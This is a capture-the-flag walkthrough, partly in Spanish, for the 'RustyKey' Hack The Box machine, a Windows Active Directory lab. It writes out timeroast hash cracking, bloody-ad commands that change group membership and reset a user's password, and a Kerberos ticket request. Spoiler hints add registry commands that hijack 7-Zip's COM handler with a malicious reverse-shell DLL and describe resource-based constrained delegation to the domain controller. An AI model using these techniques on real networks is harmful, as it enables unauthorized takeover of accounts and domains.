





Machine Information

As is common in real life Windows pentests, you will start the RustyKey box with credentials for the following account: `rr.parker` / `8#t5HE8L!W3A`

---

Enumeramos smb mediante nxc. Enumeramos RIDs mediante `--rid-brute` y usamos `-M timeroast` para obtener hashes de múltiples cuentas de ordenador.  


Crackeamos el hash con la version beta de [hashcat](https://hashcat.net/beta/)  y comparamos el hash crackeado con el RID que encontramos en el primer paso, consiguiendo la contraseña de una cuenta de ordenador.


RID = 1125 = IT-COMPUTERS3$ 

```
Rusty88!
```

Enumeramos mediante bloodhound. 



Vemos que la cuenta de equipo a la que tenemos acceso puede añadirse al grupo `HelpDesk`, y este grupo puede cambiar la contraseña de cuatro usuarios diferentes. También puede añadir/eliminar usuarios de los grupos `IT` y `Support`.
Estos dos grupos están en el grupo `Objetos protegidos`, que a su vez está en el grupo `Usuarios protegidos`.


Enumerando de la forma correcta podemos ver que `BB.MORGAN` es el más indicado.


```shell
bloody-ad --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p <passwd> -k add groupMember HELPDESK 'IT-COMPUTER3$'
```

```SHELL
bloody-ad --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p <PASSWD> -k set password BB.MORGAN 'Test12345'
```

```shell
bloody-ad --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k remove groupMember 'Protected Objects' IT
```

```shell
getTGT.py -dc-ip 10.10.11.75 rustykey.htb/BB.MORGAN:'Test12345'
```




USER!!!!








```
User 1 to user 2:

||```Take a look at internal.pdf, located in the Desktop directory. It tells you the next step to take. It was sent to the support team, so you should try to log in as one of the users in the Support group. You can do this by changing their password, removing the Support group from the Protected Objects group, and then logging in via RunasCs.exe.

The pdf mentions extraction/compression issues and context menu actions, so we should search for context menu actions in 7zip. The specific key that we should be editing is HKLM:\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32. Add a malicious dll to it and you will get a reverse shell as the next user. You can use msfvenom to create the reverse shell, and edit the registry with either of the following commands:

$targetCLSID = 'HKLM:\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32'; Set-ItemProperty -Path $targetCLSID -Name '(default)' -Value 'C:\tmp\shell.dll'

reg add "HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /d "C:\tmp\shell.dll" /f

I do not know how people found this specific key, so do not ask me.```||

User 2 to root:

||```Take a look at what the next user can do in bloodhound. They are in the DelegationManager group, which has AddAllowedToAct permissions on the domain controller. The easiest way to escalate to root is to set the msDS-AllowedToActOnBehalfOfOtherIdentity attribute via the Set-ADComputer cmdlet. Follow the last command suggested in bloodhound (impacket-getST), then use the ticket to escalate to root via smbexec/wmiexec/secretsdump.```||
```
